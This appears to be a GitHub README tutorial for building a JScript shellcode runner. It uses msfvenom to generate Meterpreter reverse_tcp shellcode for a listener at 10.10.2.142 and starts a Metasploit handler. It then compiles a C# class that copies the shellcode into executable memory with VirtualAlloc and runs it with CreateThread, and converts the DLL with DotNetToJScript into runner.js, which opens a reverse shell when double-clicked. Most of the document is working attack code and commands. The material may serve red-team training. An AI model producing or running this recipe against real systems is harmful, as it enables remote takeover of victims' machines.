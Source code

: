 ## **Jscript Shellcode Runner**
    
  embedding **C# shellcode runner** into Jscript using **DotNetToJscript**.

  ### Step 1: **Create shellcode**
  
  - Generate **64-bit shellcode** 

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.2.142 LPORT=4444 -f csharp
    ```
      
  - start listner
        
    ```bash
    msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 10.10.2.142; set LPORT 4444; run"
    ``` 
  - copy the full byte array (`buf`).
 
  ### Step 2: **Create a New Project**
  
  1. Open **Visual Studio**.
  2. Go to **File → New → Project**.
  3. Select:
      - **Class Library (.NET Framework)** (not Console App).
      - Choose **.NET Framework 4.x** (DotNetToJScript works best with .NET 4).
  4. Name it `ExampleAssembly`.
  5. Click **Create**.
  
  ### Step 3: Modify ExampleAssembly (C#)
  
  Add imports & execution logic in `TestClass`:
  
  ```jsx
  using System;
  using System.Diagnostics;
  using System.Runtime.InteropServices;
  
  [ComVisible(true)]
  public class TestClass
  {
      [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
      static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
        uint flAllocationType, uint flProtect);
  
      [DllImport("kernel32.dll")]
      static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
        IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
      [DllImport("kernel32.dll")]
      static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
    
      public TestClass()
      {
            byte[] buf = new byte[626] {0xfc,0x48,0x83,0xe4,0xf0,0xe8...};
      
            int size = buf.Length;
      
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);		
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
      }
      
  }
  
  ```
  
  ### Step 4: Compile as x64
  
  - Ensure **platform = x64**.
  - Copy compiled DLL to [DotNetToJscript release](https://github.com/tyranid/DotNetToJScript/releases/download/v1.0.4/release_v1.0.4.7z) folder.
  
  ### Step 4: Generate Jscript Payload
  
  ```jsx
  .\DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
  ```
  
  ### Step 5: Execution
  
  - Double-click `runner.js`.
  - Spawns **Meterpreter reverse shell** after a short delay.
    <img width="1411" height="275" alt="image" src="https://github.com/user-attachments/assets/368b3511-72bd-4002-9d3d-5c86751d0030" />
